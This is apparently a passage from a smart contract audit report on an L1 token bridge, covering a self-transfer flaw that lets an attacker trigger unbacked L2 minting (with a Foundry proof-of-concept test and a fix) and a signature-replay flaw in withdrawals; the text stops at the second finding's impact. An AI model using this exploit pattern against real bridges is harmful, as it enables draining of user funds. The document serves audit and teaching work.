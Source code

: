 ### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

**Description:** `depositTokensToL2` function allows the caller to specify the from address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself.

**Impact:** This would allow the attacker to trigger the Deposit event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves.

**Proof of Concept:** As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

**Recommended Mitigation:** As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a from address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:** Users who want to withdraw tokens from the bridge can call the sendToL1 function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Impact:**
